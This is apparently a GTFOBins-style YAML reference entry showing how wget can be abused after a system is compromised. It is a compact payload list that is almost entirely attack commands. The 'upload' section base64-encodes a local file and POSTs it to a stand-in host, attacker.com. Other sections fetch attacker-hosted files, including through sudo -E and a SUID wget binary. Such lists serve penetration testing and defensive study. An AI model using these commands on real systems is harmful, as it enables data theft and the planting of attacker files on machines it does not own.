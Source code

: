 ```yaml
---
functions:
  upload:
    - description: Send base64-encoded local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        wget --post-data="d=$(base64 $LFILE | tr -d '\n')" $URL
      code: |
        export URL=http://attacker.com/
        wget --post-file="/path/file_to_send" $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        wget $URL -O $LFILE
  suid-enabled:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        ./wget $URL -O $LFILE
  sudo-enabled:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        sudo -E wget $URL -O $LFILE
---
```

